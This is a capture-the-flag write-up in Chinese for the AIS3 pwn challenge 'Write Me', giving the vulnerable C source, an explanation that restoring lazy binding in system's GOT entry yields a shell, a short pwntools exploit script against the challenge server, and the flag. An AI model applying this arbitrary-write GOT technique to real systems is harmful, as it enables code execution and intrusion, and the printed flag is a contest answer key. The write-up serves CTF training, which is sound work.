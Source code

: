 # PWN - Write Me
## 程式碼
佛心題目有給原始碼
```
#include <stdlib.h>
#include <stdio.h>
int main()
{
    setvbuf(stdin, 0, 2, 0);
    setvbuf(stdout, 0, 2, 0);
    void *systemgot = 0x404028;
    void *scanfgot = 0x404040;
    //void *systemgot = (void *)((long long)(*(int *)(systemptr+2))+(long long)(systemptr+6));
    *(long long *)systemgot = (long long)0x0;

    printf("Address: ");
    void *addr;
    long long v;
    scanf("%ld",&addr);
    printf("Value: ");
    scanf("%ld",&v);
    *(long long *)addr = (long long)v;
    *(long long *)scanfgot = (long long)0x0;
    printf("OK! Shell for you :)\n");
    system("/bin/sh");
    return 0;
}
```

## 觀察
這題把 system 的 got 改成 0 了，但是第一次呼叫會有 lazy binding，所以就把 systemgot 改為原本 lazy binding 跳去的位址就好

## exploit
```
from pwn import *

r = remote('quiz.ais3.org', 10102)
r.recvuntil(': ')
r.sendline(str(0x404028))
r.recvuntil(': ')
r.sendline(str(0x401050))

r.interactive()
```

* flag: `AIS3{Y0u_know_h0w_1@2y_b1nd1ng_w@rking}`
